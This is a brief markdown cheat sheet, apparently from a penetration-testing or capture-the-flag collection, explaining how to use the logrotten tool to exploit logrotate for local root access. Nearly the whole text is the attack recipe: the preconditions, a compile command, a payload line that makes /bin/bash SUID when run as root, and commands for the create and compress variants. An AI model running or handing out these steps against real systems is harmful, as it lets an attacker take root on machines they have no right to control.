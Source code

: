 ## Resources: https://github.com/whotwagner/logrotten Logrotten

### REQUIREMENTS:

#### 1) Logrotate has to be executed as root
#### 2) The logpath needs to be in control of the attacker
#### 3)Any option that creates files is set in the logrotate configuration

### STEPS:

#### 1) Download binary from the repo, then compile (gcc logrotten.c -o logrotten)

#### 2) echo "if [ `id -u` -eq 0 ]; then (chmod +xs /bin/bash); fi" > payload

#### 3) ./logrotten -p ./payload /tmp/log/pwnme.log (Create option)

#### 3) ./logrotten -p ./payload -c -s 4 /tmp/log/pwnme.log (Compress Option)
